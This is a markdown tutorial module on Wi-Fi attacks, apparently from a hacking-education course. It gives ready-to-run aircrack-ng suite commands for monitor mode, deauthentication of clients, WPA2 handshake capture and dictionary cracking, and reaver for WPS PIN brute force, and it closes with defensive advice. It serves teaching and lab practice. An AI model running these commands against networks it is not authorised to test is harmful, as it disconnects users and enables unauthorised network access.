

# Network Basics for Hackers
## Module 05 - Wi-Fi Hacking

---

## Overview

Wireless networks broadcast signals across physical boundaries, making 802.11 traffic accessible to anyone within radio frequency range. Attacking Wi-Fi networks involves capturing authentication material over the air - such as the 4-way WPA/WPA2 handshake or vulnerable WPS exchanges - and performing offline cryptographic analysis without sending further traffic to the target.

---

## The Hardware Problem

Standard wireless network cards in consumer laptops are built to connect to existing networks in managed mode, not to inject raw 802.11 frames or capture ambient packets. For penetration testing, you need an adapter that supports:

- **Monitor mode** - receive all wireless frames in range, not just the ones addressed to your machine
- **Packet injection** - transmit raw 802.11 management frames (required for deauthentication attacks)

> 💡 **Integrated Wi-Fi Card Lab Tip:** While external USB adapters (like Alfa chipsets) are widely recommended, you can often test with your laptop's integrated Wi-Fi card by booting **Kali Linux directly from a Live USB**. Running Kali natively on bare metal gives the kernel direct access to internal wireless chipsets, avoiding hypervisor virtualization boundaries and frequently allowing monitor mode and packet injection without purchasing additional dongles.

---

## Monitor Mode

Normal Wi-Fi cards work in **managed mode** - they connect to one access point and ignore everything else. Monitor mode turns the card into a passive receiver that captures every frame in the air on whatever channel you point it at.

```bash
# Check your wireless interfaces
ahegazy0@kali:~$ iwconfig

# Kill processes that might interfere (NetworkManager, wpa_supplicant)
ahegazy0@kali:~$ sudo airmon-ng check kill

# Enable monitor mode on wireless interface
ahegazy0@kali:~$ sudo airmon-ng start wlan0

# Verify monitor mode is active (look for Mode:Monitor)
ahegazy0@kali:~$ iwconfig

# Stop monitor mode when done
ahegazy0@kali:~$ sudo airmon-ng stop wlan0mon
```

In monitor mode your card isn't connected to anything. It's just listening. Like tuning a radio to a frequency and recording everything on it.

---

## Scanning for Networks - airodump-ng

`airodump-ng` reads the raw 802.11 frames your card captures and presents them as a live table of nearby access points and connected clients.

```bash
# Scan all channels
ahegazy0@kali:~$ sudo airodump-ng wlan0mon

# Lock onto a specific channel and BSSID, save to file
ahegazy0@kali:~$ sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

Output looks like this:

```
BSSID              PWR  Beacons  #Data  CH  ENC   ESSID
AA:BB:CC:DD:EE:FF  -62      120     45   6  WPA2  TargetNetwork

STATION            BSSID              PWR
11:22:33:44:55:66  AA:BB:CC:DD:EE:FF  -55
```

- **BSSID** - MAC address of the access point
- **CH** - channel it's on
- **ENC** - encryption type (WPA2, WPA, WEP, OPN)
- **ESSID** - network name
- **STATION** - client devices currently connected

You need the BSSID and channel before targeting a specific network. This is the recon step.

---

## Capturing the WPA2 Handshake

WPA2 uses a **4-way handshake** when a client connects. The two sides exchange four packets to establish session keys. That handshake has enough information to verify password guesses offline - which is why capturing it is the goal.



```
Client                    Access Point
  |                            |
  |<----- Message 1 ----------|   AP sends a random value (ANonce)
  |                            |
  |------ Message 2 ---------->|   Client responds with nonce + MIC
  |                            |
  |<----- Message 3 ----------|   AP confirms, sends encrypted keys
  |                            |
  |------ Message 4 ---------->|   Client acknowledges
  |                            |
  |======== Connected ==========|
```

The MIC (Message Integrity Code) in message 2 is a hash derived from the password. With the handshake and the SSID, you can try passwords offline - hash each candidate, check if it matches the MIC.

You can wait for a client to naturally connect, or force it to reconnect.

---

## Deauth Attack - Forcing the Handshake

The 802.11 standard includes a deauthentication frame that tells a client it's been disconnected. It was designed with no authentication. Anyone can send one, and the client has to obey.

`aireplay-ng` abuses this to kick a client off the network. They reconnect automatically and silently, and you capture the handshake.

```bash
# Deauth a specific client
# -0 = deauth attack, 10 = number of packets, -a = AP BSSID, -c = client MAC
ahegazy0@kali:~$ sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Broadcast deauth (kicks everyone off the network)
ahegazy0@kali:~$ sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

While this runs, `airodump-ng` should be capturing in the background. When a client reconnects, you'll see `WPA handshake: AA:BB:CC:DD:EE:FF` in the top right of the airodump output. That's your capture.

---

## Cracking the Handshake

Once you have the `.cap` file with the handshake, cracking is entirely offline. You don't need to be near the network anymore.

```bash
# Crack using a wordlist
ahegazy0@kali:~$ sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap

# rockyou.txt has 14 million real passwords from an old data breach
# if the password is common, it's in here
```

This is a dictionary attack. aircrack-ng takes each word, hashes it with the SSID as a salt, and compares it to the MIC in the handshake. Real password in the wordlist? Found. Not in the list? Nothing.

This is why long random Wi-Fi passwords matter. A 20-character random string isn't in any wordlist. `sunshine123` is on page one of rockyou.

---

## WPS - The Shortcut Attack

WPS (Wi-Fi Protected Setup) was added to make connecting devices easier. Press a button or enter an 8-digit PIN and you're in, no main password needed. The problem: that PIN can be brute-forced in hours regardless of how strong the actual Wi-Fi password is.

An 8-digit PIN should have 100 million combinations. But the protocol validates the first and second halves separately. That reduces it to about 11,000 combinations max.

```bash
# Find networks with WPS enabled
ahegazy0@kali:~$ sudo wash -i wlan0mon

# Brute-force the WPS PIN
ahegazy0@kali:~$ sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv
```

Many routers have WPS on by default. Some older ones can't properly disable it. If WPS is enabled, the strength of the WPA2 password barely matters.

---

## Defending Against This

- **Use WPA2 or WPA3** - WEP is completely broken, never use it
- **Disable WPS** - turn it off. The convenience isn't worth it
- **Long random passwords** - dictionary attacks only work if your password is in a dictionary. 20+ random characters and offline cracking isn't practical
- **WPA3** - uses SAE (Simultaneous Authentication of Equals) which fixes the offline dictionary attack problem entirely. Captured handshake can't be cracked offline

---

## Quick Reference

| Command | What it does |
|---------|-------------|
| `iwconfig` | View wireless interfaces and modes |
| `airmon-ng start wlan0` | Enable monitor mode |
| `airmon-ng check kill` | Kill interfering processes |
| `airodump-ng wlan0mon` | Scan for nearby networks and clients |
| `aireplay-ng -0 10 -a <BSSID> -c <CLIENT>` | Send deauth frames |
| `aircrack-ng -w wordlist.txt capture.cap` | Crack WPA2 handshake |
| `wash -i wlan0mon` | Find WPS-enabled routers |
| `reaver -i wlan0mon -b <BSSID>` | Brute-force WPS PIN |

---

## Practice

```bash
# 1. Check wireless interfaces
ahegazy0@kali:~$ iwconfig

# 2. Enable monitor mode
ahegazy0@kali:~$ sudo airmon-ng check kill
ahegazy0@kali:~$ sudo airmon-ng start wlan0

# 3. Scan for nearby networks
ahegazy0@kali:~$ sudo airodump-ng wlan0mon

# 4. Lock onto your test target and save the capture
ahegazy0@kali:~$ sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w test_capture wlan0mon

# 5. Check if WPS is enabled on nearby routers
ahegazy0@kali:~$ sudo wash -i wlan0mon
```

- [ ] Check wireless interfaces with `iwconfig` and verify whether monitor mode is supported on your chipset.
- [ ] Put your wireless card into monitor mode using `sudo airmon-ng start wlan0` (or test via Kali Live USB).
- [ ] Run `sudo airodump-ng wlan0mon` to identify nearby BSSIDs, operational channels, and active clients.
- [ ] Capture the 4-way handshake on your test lab network using `aireplay-ng` deauth frames and confirm capture in airodump-ng.
- [ ] Explain why WPA2 offline dictionary attacks require both the captured handshake and the target network's SSID (salt).

> 💡 *For deeper practice, I also recommend completing the end-of-chapter exercises in the official **Network Basics for Hackers** book.*

---

*Up next: Module 06 - Bluetooth Networks*
